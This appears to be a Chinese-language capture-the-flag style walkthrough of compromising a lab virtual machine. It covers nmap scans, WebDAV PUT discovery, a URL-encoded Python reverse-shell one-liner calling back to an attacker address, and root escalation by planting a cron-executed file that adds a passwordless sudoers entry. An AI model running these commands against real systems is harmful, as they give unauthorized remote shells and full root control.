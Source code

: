 目标靶机：http://192.168.3.44/
#信息收集
nmap 端口扫描
```
Nmap scan report for 192.168.3.44
Host is up (0.00024s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:06:CF:34 (Oracle VirtualBox virtual NIC)
```
nmap漏洞扫描
```
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-01 04:08 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 192.168.3.44
Host is up (0.00039s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|_  /test/: Test page
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
MAC Address: 08:00:27:06:CF:34 (Oracle VirtualBox virtual NIC)

```
nmap服务探测
```

Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-01 04:08 EST
Nmap scan report for 192.168.3.44
Host is up (0.00031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: lighttpd/1.4.28
MAC Address: 08:00:27:06:CF:34 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (93%), Linux 3.16 - 4.6 (93%), Linux 3.2 - 4.9 (93%), Linux 4.4 (93%), Linux 3.13 (90%), Linux 3.18 (89%), Linux 4.2 (87%), Linux 3.13 - 3.16 (87%), Linux 3.16 (87%), OpenWrt Chaos Calmer 15.05 (Linux 3.18) or Designated Driver (Linux 4.1 or 4.4) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

版本信息
```
HTTPServer[lighttpd/1.4.28],
IP[192.168.3.44], 
PHP[5.3.10-1ubuntu3.21],
X-Powered-By[PHP/5.3.10-1ubuntu3.21], lighttpd[1.4.28]
```

目录扫描
```
http://192.168.3.44/test/ 
```


#利用
查看到服务器支持put请求
```

└─# curl -X OPTIONS http://192.168.3.44/test/ -vv
*   Trying 192.168.3.44:80...
* Connected to 192.168.3.44 (192.168.3.44) port 80 (#0)
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.3.44
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Allow: OPTIONS, GET, HEAD, POST
< Content-Length: 0
< Date: Mon, 01 Jan 2024 17:43:15 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.3.44 left intact

```

反弹shell
```
python%20-c%20'import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22192.168.1.100%22%2C443))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22%2Fbin%2Fbash%22)'
```
网站用户权限
![f7fb56f739797983348b5b4fe032c4ab.png](../../_resources/f7fb56f739797983348b5b4fe032c4ab.png)

#提权
机子不允许连外网，无法上传脚本或内核利用程序
ls /etc/cron*  
发现计划任务的每日计划有两个工具，谷歌也搜到这两个工具的漏洞
![d3dfcf01db68461eab664398e3fbe629.png](../../_resources/d3dfcf01db68461eab664398e3fbe629.png)

搜索到的漏洞说明
![7b5a3f0dd5df66a0c40f631be562ca21.png](../../_resources/7b5a3f0dd5df66a0c40f631be562ca21.png)
放一个update的文件到/tmp下，会被该工具执行（通常root）。

echo "echo 'www-data ALL=NOPASSWD: ALL' >> /etc/sudoers" > 2
cat 2 内容如下 
```
echo "echo 'www-data ALL=NOPASSWD: ALL' >> /etc/sudoers"
```
mv 2 update #等待计划任务执行该文件，就会添加一个sudo无密码完全权限到www-data用户，


最后
sudo su
![d9c509137f2de681a78a4a26c6ae89bd.png](../../_resources/d9c509137f2de681a78a4a26c6ae89bd.png)
